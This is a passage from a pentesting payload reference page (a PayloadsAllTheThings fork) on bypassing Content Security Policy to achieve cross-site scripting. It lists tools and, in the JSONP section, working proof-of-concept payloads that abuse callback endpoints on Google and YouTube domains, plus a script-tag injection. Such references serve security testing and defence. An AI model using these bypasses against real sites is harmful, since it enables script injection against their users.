

repository: pchabermann/PayloadsAllTheThings · page: XSS Injection/4 - CSP Bypass/index.html · generator: mkdocs

# CSP Bypass

> A Content Security Policy (CSP) is a security feature that helps prevent cross-site scripting (XSS), data injection attacks, and other code-injection vulnerabilities in web applications. It works by specifying which sources of content (like scripts, styles, images, etc.) are allowed to load and execute on a webpage.

## Summary

- [Tools](#tools)
- [Bypass CSP using JSONP](#bypass-csp-using-jsonp)
- [Bypass CSP default-src](#bypass-csp-default-src)
- [Bypass CSP inline eval](#bypass-csp-inline-eval)
- [Bypass CSP unsafe-inline](#bypass-csp-unsafe-inline)
- [Bypass CSP script-src self](#bypass-csp-script-src-self)
- [Bypass CSP script-src data](#bypass-csp-script-src-data)
- [Bypass CSP nonce](#bypass-csp-nonce)
- [Bypass CSP header sent by PHP](#bypass-csp-header-sent-by-php)
- [Labs](#labs)
- [References](#references)

## Tools

- [gmsgadget.com](https://gmsgadget.com/) - GMSGadget (Give Me a Script Gadget) is a collection of JavaScript gadgets that can be used to bypass XSS mitigations such as Content Security Policy (CSP) and HTML sanitizers like DOMPurify.
- [csp-evaluator.withgoogle.com](https://csp-evaluator.withgoogle.com) - CSP Evaluator allows developers and security experts to check if a Content Security Policy (CSP) serves as a strong mitigation against cross-site scripting attacks.

## Bypass CSP using JSONP

**Requirements**:

- CSP: `script-src 'self' https://www.google.com https://www.youtube.com; object-src 'none';`

**Payload**:

Use a callback function from a whitelisted source listed in the CSP.

- Google Search: `//google.com/complete/search?client=chrome&jsonp=alert(1);`
- Google Account: `https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)`
- Google Translate: `https://translate.googleapis.com/$discovery/rest?version=v3&callback=alert();`
- Youtube: `https://www.youtube.com/oembed?callback=alert;`
- [Intruders/jsonp_endpoint.txt](Intruders/jsonp_endpoint.txt)
- [JSONBee/jsonp.txt](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt)

```js
<script/src=//google.com/complete/search?client=chrome%26jsonp=alert(1);>"
```
